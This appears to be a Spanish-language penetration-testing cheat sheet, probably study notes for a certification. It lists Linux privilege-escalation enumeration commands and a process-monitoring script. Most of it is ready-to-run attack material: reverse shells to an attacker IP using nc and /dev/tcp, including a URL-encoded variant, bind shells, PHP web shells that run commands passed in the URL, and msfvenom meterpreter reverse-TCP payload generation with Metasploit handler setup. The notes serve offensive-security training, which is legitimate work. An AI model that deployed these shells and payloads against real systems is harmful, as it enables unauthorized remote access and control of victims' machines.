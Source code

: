 ```yaml
---

---
```


------
## Enumeración una vez ganamos acceso para elevar privilegios

> Webs

- [GtfObins](https://gtfobins.github.io/)
- [HAcktricks](https://book.hacktricks.wiki/en/index.html)
- [IA - Hacktrics](https://www.hacktricks.ai/)


> Tools
- [LSE](https://github.com/diego-treitos/linux-smart-enumeration)
- [PSPY](https://github.com/DominicBreuker/pspy)

> Commands Para **SUID** para **SGID**
```bash
SGID
find / -perm -4000 -o -perm -2000 -exec ls -ld {} \; 2>/dev/null
SUID
find -perm -4000 -ls 2>/dev/null
AMBOS
ls -alh /path/to/check | grep 's'
``` 
> Commands para ver capabilities
> Podemos ver ciertas tareas privilegiadas con el user actual

```bash
getcap -r / 2>/dev/null
```

>Ver que tarea se ejecuta

- [PSPY](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64)

```bash
systemctl list-timers
```

>Ver que comando se  ejecuta  y que usuarios lo ejecutan

```bash
ps -eo command
ps -eo user,command
```

- Script --> [**currentcommand.sh**](D:\Training\eJPTv2\Payloads\currentcommandSystem.sh)
```bash
#!/bin/bash

function ctrl_c(){
	echo -e "\n\n[!] Saliendo...\n"
	tput cnorm: exit 1 #Recuperar cursor
}

# Habilitar Ctrl+c
trap ctrl_c SIGINT

old_process=$(ps -eo user,command)

tput civis # Ocultar cursor

while true; do
	new_process=$(ps -eo user,command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|kworker|procmon"
	old_process=$new_process
done
```
## Netcat - nc (también tenemos ncat, n.traditional)

> -e --> **esta flag coge el archivo a utilizar**

> -nvlp --> escucho a una IP, en modo verbose, a la escucha, por el puerto que le especifique

## Reverse shells

- [RevShell](https://www.revshells.com/)
- [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

>En este caso mando una shell y me pongo a la escucha desde la ip atacante

 - **Desde máquina víctima**

```bash
nc -e /bin/bash ip_atacante 8080
 
bash -c 'bash -i >& /dev/tcp/ip_atacante/port 0>&1'
bash -c "bash -i >& /dev/tcp/ip_atacante/port 0>&1"
bash%20-c%20"bash%20-i%20>%26%20/dev/tcp/ip_atacante/port%200>%261"
bash -i >& /dev/tcp/ip_atacante/port 0>&1

# En meterpreter
/bin/bash -i
```

- Si tenemos una **rbash(restricted bash)** una vez hemos ganado acceso por ssh, únicamente poner bash al final
```bash
ssh user@IP bash
```

- **Desde máquina atacante**
```bash
rlwrap nc -nvlp 8080
```

- **Una vez estemos dentro**
```bash
script /dev/null -c bash
```


## Bind shell

> En este caso me pongo en esucha desde la víctima con una shell y desde mi consola me conecto
- **Desde máquina víctima**

```bash
nc -nvlp 4646 -e/bin/bash
```

- Desde máquina atacante
```bash
rlwrap nc ip_víctima 4646
```

## Forward Shell

> En este caso se bloquea el tráfico saliente  por lo que usaremos temo files para conseguir leer el output en otro archivo 

```bash
nano cmd.php
```

```php
<?
	echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

- Así consulto comandos en la web
http://192.168.1.135/cmd.php?cmd=whoami


- **Pero en este caso queremos una shell interactiva que nos han capado**

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```




>Debemos ejecutar una revshell por el puerto 443
```bash
nc -e /bin/bash ip_atacante 443
```

>****Manda archivos temporales con la salida del comando ejecutado a nuetsrro PC, dejándolos en memoria e la máquina víctima y eliminando cualquier rastro****
	
[tty_over_http.py](https://github.com/s4vitar/ttyoverhttp/blob/master/tty_over_http.py)

- **Simplemente ejecuto** `python3 tty_over_http.py` **y he ganado acceso sin necesidad de mandar una shell desde la víctima**
```bash
script /dev/null -c bash
```
## Payloads

#DiferenciasDePayloads

>La diferencia es la forma en que se envían por detrás, a la hora de utilizarlo no notaremos nada.
### Staged Payloads

- Se envía en diferentes fases
- Detección más difícil
- Mucho más pequeño

- Crear payload
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -- platform Windows -a x64 LHOST=ip_ataque LPORT=port_ataque -f exe -o shell.exe
```

>En **metasploit**

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
```
### Non-Staged Payloads

- Se envía de una sóla vez
- Es más grande

- Crear payload
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp --platform Windows -a x64 LHOST=ip_ataque LPORT=port_ataque -f exe -o shell.exe
```

>En **metasploit**

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
```

> **Sin Metasploit**

```bash
msfvenom -p windows/x64/shell_reverse_tcp --platform Windows -a x64 LHOST=ip_ataque LPORT=port_ataque -f exe -o shell.exe
```

```bash
rlwrap nc -nvlp port_ataque
```
